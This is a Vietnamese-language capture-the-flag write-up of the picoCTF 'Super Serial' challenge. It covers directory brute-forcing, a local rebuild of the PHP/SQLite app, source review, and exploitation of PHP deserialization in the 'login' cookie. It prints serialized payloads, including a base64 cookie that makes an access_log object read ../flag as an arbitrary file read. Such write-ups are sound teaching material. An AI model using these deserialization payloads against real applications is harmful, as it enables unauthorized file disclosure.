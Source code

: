 # Super Serial
### Thử thách:
- Try to recover the flag stored on this website [http://mercury.picoctf.net:2148/](http://mercury.picoctf.net:2148/)
- Hint: The flag is at ../flag.
### Kiến thức nền:
- PHP deserialization injection.
### Giải quyết vấn đề:
1/ Initial reconnaissance:

- Đề bài cho ta một trang login như sau:
 
![image](https://user-images.githubusercontent.com/61876488/115115640-bb9b0200-9fbf-11eb-866b-30765f2431d4.png)

- Thường thì khi nhìn vào các trang login như thế này thì ta nghĩ ngay đến việc tìm cách bypass để vào được một normal user hay admin nào đó. Tên bài là "Super Serial" làm mình có cảm giác trang login này sẽ bị dính lỗi "PHP deserialization injection". Các lỗi liên quan đến deserialization thường xuất hiện ở các session cookie. Hiểu sơ sơ sau khi login thành công thì mỗi user sẽ được phát 1 cái cookie như này. Tuy nhiên, lại quay về vấn đề cũ, chúng ta vẫn chưa biết làm cách nào để bypass cái trang login này! Thử reconnaissance xem trang login này còn manh mối gì nữa không. Sử dụng [ffuf](https://github.com/ffuf/ffuf) để brute-force directory của URL đã cho:

![image](https://user-images.githubusercontent.com/61876488/115120304-0aa06180-9fd7-11eb-9c65-c5d29e7f870d.png)

- Như vậy, source của trang này gồm 3 file php là index, cookie và authentication. Các bài ctf code bằng php thì hay cho đọc source thông qua file [phps](https://stackoverflow.com/questions/41689479/what-is-the-file-extension-phps-and-what-is-it-used-for). Uầy, bài này cho source thật:
![image](https://user-images.githubusercontent.com/61876488/115120456-d8dbca80-9fd7-11eb-929c-1b36316ad638.png)

Thử đem hết đống source code này về dựng trên local host để xem nó hoạt động như nào. 

2/ Rebuild the environment and review source code:

a) Rebuild the environment:
- Các cài đặt cần thiết: php, sqlite3, các module để kết nối PHP với SQLite3 như pdo_sqlite hay [php-sqlite3](https://www.getastra.com/kb/knowledgebase/how-to-install-sqlite-for-php-on-my-apache-nginx-server/) (kiểm tra các PHP module bằng lệnh `php -m`).
- Để ý trong source phần cookie.php có đoạn sau:
```php
$con = new SQLite3("../users.db");
$username = $this->username;
$password = $this->password;
$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
```
Điều này đồng nghĩa rằng chúng ta phải tạo thêm một file [flat database](https://www.techopedia.com/definition/25330/flat-database) users.db chứa username và password (tất nhiên là fake, btw, chúng ta đang ở local host, thích làm gì mà chả được :v):
\+ Tạo database: `sqlite3 users`
\+ Tạo table: 
```SQL
CREATE TABLE users(
   admin BOOLEAN NOT NULL CHECK (admin IN (0, 1)),
   username VARCHAR(20) NOT NULL,
   password VARCHAR(20) NOT NULL       
)
```
\+ Insert data:
```SQL
INSERT INTO users VALUES ('1','antoine','12345'); // admin account
INSERT INTO users VALUES ('0','messi','12345'); // guest account
```
- Bây  giờ thì chúng ta đã có hai account để login vào là "antoine" và "messi". Test thử xem sao:

\+ antoine:

![image](https://user-images.githubusercontent.com/61876488/115133042-5121aa80-a02f-11eb-8cd5-34d064562029.png)

\+ messi:

![image](https://user-images.githubusercontent.com/61876488/115133101-e0c75900-a02f-11eb-901c-069d7fd75e27.png)

- Nhìn chung sau khi login vào thì ta sẽ được direct đến "authentication.php". Đồng thời trang web sẽ tạo ra một session cookie tên "login" (F12 để check).

b) Review source code:
- index.php:
```php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
```
\+ username và password được gửi đến server thông qua method POST.

\+ username và password được truyền vào object “perm_res” để authenticate.

\+ Nếu method “is_guest” hay “is_admin” của object “perm_res” trả về “true” thì cookie “login” sẽ được tạo ra và header “Location” sẽ set value bằng “authentication.php” (direct từ trang login sang trang “welcome”).

\+ Cookie “login” được tạo ra bằng cách serialize object “perm_res” sau đó base64 và urlencode. (có khả năng khai thác được PHP deserialization).

- cookie.php:
```php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}
```
\+ Hàm is_guest  và is_admin của class permissions hoạt động tương  tự như nhau, đều check 2 attribute username và password của class permission bằng cách truy vấn vào database “users.db” để check xem account có exist hay không. Vì hai hàm này đều sử dụng “prepared statements” và “parameterized queries” để execute truy vấn nên việc inject các object php nhằm mục đích exploit SQLi là bất khả thi. Ví dụ:
`O:11:"permissions":2:{s:8:"username";s:7:"antoine";s:8:"password";s:12:"a' OR 1=1 --";}`
không thể exploit được.

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
\+ Khối lệnh if này check xem cookie “login” đã được serialize đúng cách chưa (khi modify lại cookie “login” trên storage cần lưu ý điều này). Nếu không đúng sẽ trả về dòng lỗi “Deserialization error.” kèm theo data bị unserialize lỗi ra. 

- authentication.php:
```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```
\+ Class “access_log” có 2 magic method là “__construct” và “__toString”. Trong đó method “__toString” trả về kết quả của hàm read_log. Hàm read_log lại trả về nội dung của file được truyền vào constructor của class “access_log” thông qua hàm file_get_contents.
\+ Magic method sẽ chạy khi class được khởi tạo, do đó chúng ta lợi dụng lỗi PHP deserialization để khởi tạo 1 object “access_log”, truyền vào nó 1 đường dẫn file bất kì, method “__toString” sẽ chạy và in ra nội dung của file. Vì ở trên local host không có file "flag" nên chúng ta sẽ lấy file "access.log" làm ví dụ. Encode (base64 rồi url) và inject payload này vào cookie "login":
` O:10:"access_log":1:{s:8:"log_file";s:10:"access.log";} `
ta được kết quả:

![image](https://user-images.githubusercontent.com/61876488/115134652-31dd4a00-a03c-11eb-8846-3d0923919ab5.png)

3/ Exploitation:

- Vào URL: http://mercury.picoctf.net:2148/authentication.php
- Tạo 1 cookie login với value là: 
`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`
(plaintext: `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`, vì trong hint có ghi "The flag is at ../flag.")
- Refresh lại trang ta thu được flag:

![image](https://user-images.githubusercontent.com/61876488/115134775-600f5980-a03d-11eb-819d-1c30cd4129e7.png)
